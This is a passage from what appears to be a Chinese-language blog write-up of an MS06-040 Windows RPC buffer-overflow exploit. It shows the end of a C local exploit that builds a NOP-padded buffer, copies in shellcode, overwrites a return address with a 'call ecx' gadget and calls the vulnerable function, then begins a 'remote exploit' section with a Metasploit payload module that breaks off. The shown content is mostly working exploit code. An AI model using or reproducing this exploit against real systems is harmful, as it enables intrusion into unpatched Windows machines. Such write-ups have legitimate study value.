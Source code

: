 ```
	memset(path,0x90,sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'a',sizeof(prefix)-2);
	memcpy(prefix,shellcode,113);

	path[0x318]=0xF9;		// call ecx
	path[0x319]=0x52;
	path[0x31A]=0x18;
	path[0x31B]=0x75;

	(Trigger)(path,can_path,maxbuf,prefix,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

pwn~

![](/assets/img/exploit/2018-01-02-ms06-040-rpc-exploit/0x08.png)


### 0x02 远程exploit

```
##
# Author: wooy0ung
# Date:	2018/01/15
##

require 'msf/core'

module Metasploit3
  CachedSize = 200

  include Msf::Payload::Single

  def initialize(info = {})
    super(merge_info(info,
      'Name'          => 'Windows Warning Box',
      'Description'   => 'Only for Version under Windows 7',
```